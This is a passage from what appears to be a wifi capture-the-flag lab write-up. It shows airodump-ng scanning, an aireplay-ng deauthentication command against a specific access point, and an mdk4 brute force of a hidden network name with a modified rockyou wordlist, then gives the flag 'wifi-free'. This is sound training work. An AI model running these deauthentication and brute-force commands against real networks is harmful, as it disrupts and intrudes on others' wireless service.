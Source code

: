 I can't see the ESSID field.

I can test to find hidden ESSID with airodump-ng and aireplay-ng but in this case there are no clients. 

```shell
sudo airodump-ng wlan0mon -w scanchall04 --manufacturer --wps --band abg -c 11
sudo aireplay-ng -0 3 -a F0:9F:C2:6A:88:26 wlan0mon
```

![](Images/Recon04_02.png)

So I can use mdk4 for find it with brute force:

```shell
mdk4 wlan0mon -t F0:9F:C2:6A:88:26 -r 11 -f /root/rockyou-top100000.txt
```

But this brute force doesn't work because works are not prefixed by `wfi-`. I have to add this prefix for each line with `sed -e 's/^/wifi-/' /root/rockyou-top100000.txt > wifirockyou.txt`

![](Images/Recon04_03.png)

**Flag :** `wifi-free`

## **05. What is the flag in the hidden AP router behind default credentials?**

**Challenge Description :** What is the flag in the hidden AP router behind default credentials?
